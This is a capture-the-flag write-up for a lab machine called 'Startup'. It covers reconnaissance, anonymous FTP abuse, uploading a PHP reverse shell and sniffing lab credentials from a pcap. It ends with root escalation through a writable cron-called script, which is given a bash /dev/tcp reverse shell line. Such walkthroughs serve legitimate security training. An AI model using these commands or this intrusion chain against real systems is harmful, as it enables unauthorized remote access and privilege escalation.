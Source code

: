 # Startup

##### Written: 17/09/2021

<br>

##### IP Address: 10.10.96.254

<br>

<br>

#### What is the secret spicy soup recipe?

First, let's run a basic **nmap** scan on our target machine using the follow command:

```
sudo nmap -sC -sV -vv 10.10.96.254
```

Results:

<img style="float: left;" src="screenshots/screenshot1.png">

As we can see, there are 3 ports currently open on the machine:

* 21 - FTP Server
* 22 - SSH Server
* 80 - HTTP Server

We can also see that the FTP server allows for **anonymous login**! This is a misconfiguration that can be commonly found on FTP servers, allowing us to access the files within the server without a password.

Let's login to the FTP server. We use the username: **anonymous** and do not need to supply a password.

<img style="float: left;" src="screenshots/screenshot2.png">

We find two files: **important.jpg** and **notice.txt**. There is also a **ftp** directory, although there seems to be nothing inside. Now let's download those files to our local machine using the command:

```
get < file_name >
```

<br>

Contents of **notice.txt**:

<img style="float: left;" src="screenshots/screenshot3.png">

Looks like some fluff about Among Us memes :sweat_smile:. There is also mention of **Maya**. We can note this down as it could be a potential username that we can use later on.

<br>

Next, we can open **important.jpg**, but it will give us the following error:

<img style="float: left;" src="screenshots/screenshot4.png">

Let's check the file format to find out what type of file this really is. We can do so by checking the **file signature**, which are also known as **magic numbers** or **magic bytes**. To do so, we use **hexeditor** like so:

```
hexeditor < file_name >
```

<img style="float: left;" src="screenshots/screenshot5.png">

Here, we can see the first few lines of hexadecimal characters that make up the file. The magic bytes will always be placed at the very beginning of the file. Looking at the following wikipedia page: 

https://en.wikipedia.org/wiki/List_of_file_signatures#:~:text=This%20is%20a%20list%20of,its%20contents%20will%20be%20unintelligible

<img style="float: left;" src="screenshots/screenshot6.png">

We can see that the file is actually a **PNG** file! (*89 50 4E 47 0D 0A 1A 0A*). Now we just have to change the file extension of important.jpg to **important.png** and we should be able to view it.

Content of **important.png**:

<img style="float: left;" src="screenshots/screenshot7.png">

Found the Among Us meme! While the content does not seem especially interesting, perhaps we can check for steganography by using **zsteg**:

```
zsteg < file_name >
```

Results:
<img style="float: left;" src="screenshots/screenshot8.png">





I'm not well-versed with steganography, but I believe that there is nothing that we can use from these results. Hitting a dead end here, let's go ahead and explore the other services that are currently running on our target.

<br>

When we visit the web server, we are greeted with the following page:

<img style="float: left;" src="screenshots/screenshot9.png">

There is a **'contact us'** link that opens the **mailto** functionality:

<img style="float: left;" src="screenshots/screenshot10.png">

From this Wikipedia page: https://en.wikipedia.org/wiki/Mailto, I learnt that **mailto** is a Uniform Resource Identifier (URI) scheme for email addresses. It is used to produce hyperlinks on websites that allow users to send an email to a specific address directly from an HTML document, without having to copy it and entering it into an email client. 

It would also seem that the **mailto** has not been properly configured as it points to **#**, instead of an email address. Looking at the source code of the page, we can confirm this as the developer has left a comment:

<img style="float: left;" src="screenshots/screenshot11.png">

At first, I thought that we would be exploiting a vulnerability with this **mailto** functionality. However, after doing some research online, I was unable to find a vulnerability that could be used for this room. (There were a variety of vulnerabilities that do exist though!)

<br>

Next, we can run a **Gobuster** scan to try and find any hidden directories on this web server:

```
gobuster dir -u http://10.10.96.254/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Results of scan:

<img style="float: left;" src="screenshots/screenshot12.png">

There is a **/files** directory on the web server! Visiting this directory, we are brought to the FTP directory from earlier.

<img style="float: left;" src="screenshots/screenshot13.png">

Great! This means that we can upload a **reverse shell** script onto the FTP server and then execute it from this web directory, granting us access into the machine. 

We will be using the **PHP** reverse shell script created by **Pentestmonkey**. To upload the script onto the FTP server, we use the following command:

```
put < file_name >
```

<img style="float: left;" src="screenshots/screenshot14.png">

After doing so, we can see that the script has been successfully uploaded on the **ftp** directory within the FTP server. Now, we just have to run a **netcat listener** and open the script within the web browser.

**netcat** command:

```
nc -lvnp 1234
```

<br>

Gaining access :smiling_imp: :

<img style="float: left;" src="screenshots/screenshot15.png">

<br>

<img style="float: left;" src="screenshots/screenshot16.png">

In the **/** directory, we can find the **recipe.txt** file, which gives us flag to the first question:

<img style="float: left;" src="screenshots/screenshot17.png">

The secret soup recipe is **love**.

<br>

---

#### What are the contents of user.txt?

Within the **/** directory, we can also see an interesting directory called **incidents**. The directory contains a **pcap** file called **suspicious.pcapng**:

<img style="float: left;" src="screenshots/screenshot18.png">

Let's go ahead and download this file onto our local machine and open it up in **Wireshark**!

<br>

<img style="float: left;" src="screenshots/screenshot19.png">

We will need to sieve through the captured packets to see if we can obtain any usable information such as passwords. Firstly, let's check out the **HTTP** traffic captured, as that is unencrypted and could reveal some credentials:

<img style="float: left;" src="screenshots/screenshot20.png">

There are only a few HTTP packets and none of them contain any credentials. With that said, it seems as if someone prior had already conducted the same attack as us, having uploaded their own reverse shell onto the FTP server.

<br>

Next, let's look at **TCP** traffic. We can simple **right-click** on any of the TCP packets and click on **Follow** > **TCP Stream**. 

<img style="float: left;" src="screenshots/screenshot21.png">

Nice! We've found a potential username and password -> **lennie:c4ntg3t3n0ughsp1c3**

With this credentials, we can try to log into the **SSH** server:

<img style="float: left;" src="screenshots/screenshot22.png">

And we're in! We can then obtain **user.txt**.

<br>

---

#### What are the contents of root.txt?

Within Lennie's home directory, there are two interesting directories: **Documents** and **scripts**.

Looking at **Documents**, there are 3 text files: **concern.txt**, **list.txt** and **note.txt**. These files did not seem to contain anything that we can use to escalate our privileges.

Next, in the **scripts** directory, there is a **planner.sh** script and **startup_list.txt** file. What's interesting to note is that both of these files are owned by **root**.

<img style="float: left;" src="screenshots/screenshot23.png">

Since we can read **planner.sh** as a non-root user, we can find out what it does:

<img style="float: left;" src="screenshots/screenshot24.png">

It looks like it echoes the contents of **$LIST** into **startup_list.txt**, before running **/etc/print.sh**. Let's now take a look at **/etc/print.sh**.

<img style="float: left;" src="screenshots/screenshot25.png">

All it does is **echo "Done!"**. With that said, **print.sh** actually belongs to **Lennie**! This means that we are able to write over it and since it's a bash script, we can have it execute anything we want, such as opening a **reverse shell**. We'll be using the **bash** reverse shell from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
bash -i >& /dev/tcp/<IP_ADDRESS_HERE>/<PORT_HERE> 0>&1
```

Now, we just have to figure out how we can execute **planner.sh** as **root**, which will then subsequently execute **print.sh** and open  up the reverse shell with root privileges.

<br>

At this point, I had an inkling that **planner.sh** was most probably being run as a **cronjob** by root. To verify this, we can use a nifty program called **pspy** (https://github.com/DominicBreuker/pspy/blob/master/README.md), which allows us to snoop on processes without the need for root permissions. This tool will tell us what cronjobs root is running without needing root permissions. 

After uploading the **pspy32** executable onto the SSH server, we can then execute it:

<img style="float: left;" src="screenshots/screenshot26.png">

As we can see, the **planner.sh** was automatically run with the UID=0 (root). This confirms that it is indeed a cronjob belonging to root!

Now, all we have to do is set up our netcat listener, sit back and relax.

<br>

<img style="float: left;" src="screenshots/screenshot27.png">

After a few seconds, our reverse shell is successfully opened and we are logged into the server as root. With that, we can obtain **root.txt** and complete the room.